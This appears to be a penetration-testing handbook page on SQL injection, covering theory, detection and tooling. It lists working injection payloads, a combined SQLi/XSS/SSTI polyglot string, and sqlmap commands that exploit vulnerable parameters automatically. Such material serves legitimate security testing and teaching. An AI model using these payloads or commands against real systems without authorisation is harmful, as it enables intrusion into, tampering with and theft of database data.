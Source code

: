 # SQL injection

## Theory

Many web applications use one or multiple databases to manage data. In order to dynamically edit the database while users browse the website, some SQL queries can rely on input vectors. When input parameters used in those queries are insufficiently validated or sanitized, these web apps can be vulnerable to SQL injections.

SQL injection attacks can allow attackers to read, update, insert or delete database data by injecting a piece of SQL query through the input vector, hence affecting the intended execution of the original query. In some cases, these attacks can also lead to File Download, File Upload or even Remote Code Execution.

## Practice

Testers need to identify input vectors \(parts of the app that accept content from the users\) that could be used for database operations. For each identified vector, testers need to check if malicious strings and values successfully exploit any vulnerability.

Using special SQL characters \(`'`, `"`, `#`, `;`, `)`, `*`,`%`\) in an input could lead to SQL errors sometimes echoed back to the users for debugging. This would indicate an entry point not sanitized enough and thus potentially vulnerable to SQL injection.

With `some.website/?parameter=value` some basic useful payload to detect vulnerable inputs are:

```text
parameter=1
parameter=1'
parameter=1"
parameter=[1]
parameter[]=1
parameter=1`
parameter=1\
parameter=1/**/
parameter=1/*!111'*/
parameter=1' or '1'='1
parameter=1 or 1=1
parameter=' or ''='
parameter=' OR 1 -- -
parameter=1' or 1=1 --
parameter=1' or 1=1 -- -
parameter=1' or 1=1 /*
parameter='='
```

{% hint style="warning" %}
GET parameters are not the only ones that could be vulnerable to SQLi. Testers should thoroughly test all user inputs \(parameters, user-agents, cookies...\)
{% endhint %}

The following payload is used for testing SQL injections, [XSS \(Cross-Site Scripting\)](xss-cross-site-scripting.md) and [SSTI \(Server-Side Template Injection\)](ssti-server-side-tempate-injection.md).

```text
'"<svg/onload=prompt(5);>{{7*7}}
```

Tools like [SQLmap](https://github.com/sqlmapproject/sqlmap) \(Python\) or [SQLninja](https://github.com/xxgrunge/sqlninja) \(Perl\) can also be used to fuzz input vectors, find vulnerable entry points and automatically exploit them.

{% hint style="danger" %}
Just like any fuzzing tool, these scans need to be slowed down when testing production instances as it could lead to an unintended denial of service. In addition to that, testers need to use those tools with the greatest care since creating issues with production instances databases \(like overwriting or deleting data\) could have a serious fallout.
{% endhint %}

```bash
sqlmap --user-agent "PENTEST" --url $URL -p target_parameter --all
```

It is also possible to load request files and let SQLmap do the heavy work of fuzzing every parameter and input vector.

```bash
sqlmap -r $REQUEST_FILE --level 2 -v 2 --all
```

The request file should look like a standard HTTP request \(line, headers, empty line, optional data\). It can be obtained by many ways like inspecting network operations in a browser, intercepting requests with a proxy \(like Burp Suite\), and so on.

```http
POST /login.php HTTP/1.1
Host: www.target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,fr;q=0.5,fr-FR;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Cookie: JSESSIONID=F168EA13C46D14AA134E13D4;
Connection: keep-alive
Upgrade-Insecure-Requests: 1

username=testusername&password=testpassword
```

## References

{% embed url="https://www.asafety.fr/mysql-injection-cheat-sheet/" caption="" %}

{% embed url="https://owasp.org/www-community/attacks/SQL\_Injection" caption="" %}

{% embed url="https://portswigger.net/web-security/sql-injection" caption="" %}

{% embed url="http://pentestmonkey.net/category/cheat-sheet/sql-injection" caption="SQL injection cheatsheets \(MSSQL, MySQL, Oracle SQL, Postgres SQL, ...\)" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection" caption="" %}

